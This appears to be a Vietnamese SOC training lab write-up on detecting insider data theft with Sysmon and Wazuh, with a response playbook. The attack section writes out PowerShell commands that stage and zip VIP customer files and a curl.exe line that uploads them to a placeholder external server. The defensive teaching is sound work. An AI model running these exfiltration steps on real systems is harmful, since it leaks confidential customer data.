










# Phát hiện Insider Threat đánh cắp dữ liệu nội bộ

> **Phạm vi sử dụng:** Nội dung được xây dựng cho môi trường lab cô lập phục vụ đào tạo SOC, Threat Hunting và Purple Team. Không thực hiện các lệnh tấn công trên hệ thống không thuộc quyền quản lý hoặc chưa được cấp phép.


Không phải mọi sự cố đều bắt đầu từ malware. Trong kịch bản này, một nhân viên có quyền truy cập hợp lệ vào dữ liệu khách hàng VIP sử dụng chính các công cụ có sẵn trên Windows để thu thập, đóng gói và tải dữ liệu ra máy chủ bên ngoài. Không có exploit, không có binary lạ và cũng không nhất thiết có quyền Administrator.

Đây là thách thức điển hình của Insider Threat: từng hành động riêng lẻ có thể hợp lệ, nhưng khi ghép theo thời gian, chúng tạo thành một chuỗi exfiltration rõ ràng.

## Kiến trúc hạ tầng




Các thành phần:

- `Sales_Endpoint`: Windows 10/11, cài Sysmon.
- `External Server`: Kali Linux chạy dịch vụ nhận file qua cổng 8000.
- `SIEM Setup`: Ubuntu Server chạy Wazuh và correlation rule.

## Chuỗi tấn công

### Bước 1 - Thu thập dữ liệu

Người dùng tạo thư mục staging trong vị trí ít gây chú ý:

```powershell
New-Item -ItemType Directory -Path 'C:\Users\Public\Music\Staging'
Copy-Item -Path 'C:\Company_Data\VIP_Customers\*' `
  -Destination 'C:\Users\Public\Music\Staging' -Recurse
```

Đây là hành vi data staging. Việc sử dụng `C:\Users\Public\Music` giúp dữ liệu tạm nằm ngoài thư mục nghiệp vụ thông thường.

### Bước 2 - Đóng gói dữ liệu

```powershell
Compress-Archive `
  -Path 'C:\Users\Public\Music\Staging\*' `
  -DestinationPath 'C:\Users\Public\Music\Personal_Backup.zip'
```

Nén dữ liệu giúp giảm số lượng tệp truyền đi và làm quá trình exfiltration giống một thao tác sao lưu cá nhân.

### Bước 3 - Tải dữ liệu ra ngoài

```powershell
curl.exe -X POST `
  -F 'files=@C:\Users\Public\Music\Personal_Backup.zip' `
  http://<IP_Cloud_Ngoai>:8000/upload
```

Trong bài lab, hành vi diễn ra ngoài giờ làm việc và kết nối tới IP Public lạ qua cổng 8000.

## Vì sao rule mặc định dễ bỏ sót?

Sysmon có thể ghi nhận:

- Process Create của PowerShell, `Compress-Archive` và `curl.exe`.
- Network Connection từ `curl.exe`.
- File Create đối với `.zip`.
- File Create trong thư mục `Staging`.

Tuy nhiên, nếu Wazuh chỉ lưu log mà không có rule chuyên biệt, SOC Analyst phải tự đọc command line trong hàng nghìn sự kiện. Mỗi sự kiện đơn lẻ chưa chắc đủ nghiêm trọng:

- Nhân viên có thể hợp pháp sử dụng PowerShell.
- Tạo ZIP có thể là thao tác công việc.
- `curl.exe` có thể dùng cho kiểm thử API.

Điểm khác biệt nằm ở sự kết hợp: truy cập dữ liệu nhạy cảm, staging, nén và kết nối outbound bất thường.

## Phát hiện trên Wazuh

Bài lab xây dựng rule và cấu hình Sysmon để theo dõi:

```xml
<ProcessCreate onmatch="include">
  <Image condition="contains">powershell.exe</Image>
  <Image condition="contains">cmd.exe</Image>
  <Image condition="contains">curl.exe</Image>
  <Image condition="contains">7z.exe</Image>
  <Image condition="contains">tar.exe</Image>
  <Image condition="contains">robocopy.exe</Image>
  <Image condition="contains">xcopy.exe</Image>
</ProcessCreate>
```

```xml
<NetworkConnect onmatch="include">
  <Image condition="contains">curl.exe</Image>
  <Image condition="contains">powershell.exe</Image>
  <Image condition="contains">7z.exe</Image>
</NetworkConnect>
```

```xml
<FileCreate onmatch="include">
  <TargetFilename condition="contains">.zip</TargetFilename>
  <TargetFilename condition="contains">.7z</TargetFilename>
  <TargetFilename condition="contains">\Staging\</TargetFilename>
  <TargetFilename condition="contains">\VIP_Customers\</TargetFilename>
</FileCreate>
```

Sau khi custom rule được triển khai, cùng hành vi `curl.exe` tải tệp ra IP lạ được tự động gắn nhãn Exfiltration và nâng mức ưu tiên.


## Điều tra Blue Team

SOC Analyst cần dựng timeline theo bốn lớp:

1. **Danh tính:** người dùng nào thực hiện?
2. **Dữ liệu:** thư mục nào được truy cập hoặc sao chép?
3. **Công cụ:** PowerShell, `Compress-Archive`, `curl.exe` hay công cụ nén khác?
4. **Đích đến:** IP, domain, cổng và thời điểm kết nối?

Các chỉ báo có giá trị:

```text
C:\Company_Data\VIP_Customers\
C:\Users\Public\Music\Staging\
Personal_Backup.zip
curl.exe
TCP/8000
```

Cần xác minh quyền truy cập của nhân viên, khối lượng dữ liệu, giờ làm việc, lịch sử kết nối và liệu file đã được máy chủ bên ngoài nhận thành công hay chưa.

## Incident Response Playbook

Tài liệu đề xuất containment bằng cách:

- Disable tài khoản Active Directory của nhân viên liên quan.
- Sử dụng EDR để cô lập máy trạm khỏi mạng nội bộ.

Trước khi xóa file staging hoặc ZIP, cần bảo quản:

- Sysmon log.
- Wazuh alert.
- Bản sao file ZIP và mã băm.
- Lịch sử PowerShell.
- Thông tin kết nối outbound.
- Danh sách tệp đã truy cập.

Sau containment, cần thu hồi session, reset credential nếu có dấu hiệu compromise, rà soát các tài khoản hoặc endpoint khác có cùng hành vi và chặn IP/domain đích trên firewall/proxy.

## Bài học rút ra

Insider Threat không thể phát hiện hiệu quả chỉ bằng IOC malware. Cần kết hợp ngữ cảnh người dùng, dữ liệu, thời gian và chuỗi hành động. Bài lab cho thấy sự khác biệt giữa “có log” và “có khả năng phát hiện”: telemetry chỉ tạo ra giá trị khi được correlation thành một cảnh báo mà SOC Analyst có thể hành động.

---

## Toàn bộ hình ảnh từ tài liệu gốc

Phần dưới đây tập hợp **9 hình ảnh** được trích xuất từ tài liệu gốc cho Lab 3 – Insider Threat và Data Exfiltration. Thứ tự hình được giữ theo trình tự xuất hiện trong tài liệu.

### Hình 1 – Minh họa Lab 3 – Insider Threat và Data Exfiltration



### Hình 2 – Minh họa Lab 3 – Insider Threat và Data Exfiltration



### Hình 3 – Minh họa Lab 3 – Insider Threat và Data Exfiltration



### Hình 4 – Minh họa Lab 3 – Insider Threat và Data Exfiltration



### Hình 5 – Minh họa Lab 3 – Insider Threat và Data Exfiltration



### Hình 6 – Minh họa Lab 3 – Insider Threat và Data Exfiltration



### Hình 7 – Minh họa Lab 3 – Insider Threat và Data Exfiltration



### Hình 8 – Minh họa Lab 3 – Insider Threat và Data Exfiltration



### Thông tin liên hệ/ghi chú cuối phần – Lab 3 – Insider Threat và Data Exfiltration


